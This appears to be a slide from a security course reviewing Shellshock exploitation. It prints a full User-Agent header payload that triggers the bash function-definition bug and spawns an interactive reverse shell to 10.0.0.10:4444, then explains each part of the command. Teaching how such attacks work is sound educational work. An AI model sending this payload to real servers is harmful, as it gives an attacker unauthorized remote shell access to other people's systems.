

# Shellshock Exploitation Review
Note the payload:
User-Agent: () { :;};echo -e "\r\n$(/bin/bash -i >& /dev/tcp/10.0.0.10/4444 0>&1)"
This complex payload opens a TCP connection to your computer’s port 4444.
User-Agent: () { :;}; exploits Shellshock by creating a function. The code after gets executed by the shell.

echo -e "\r\n$(/bin/bash -i >& /dev/tcp/10.0.0.10/4444 0>&1)”
/bin/bash -i >& /dev/tcp/10.0.0.10/4444 means "Run a new Bash shell in interactive mode. Send std error and standard output to 10.0.0.10:4444 through a TCP connection.
0>&1 means "Read standard input (0) to this new shell through the TCP connection."

37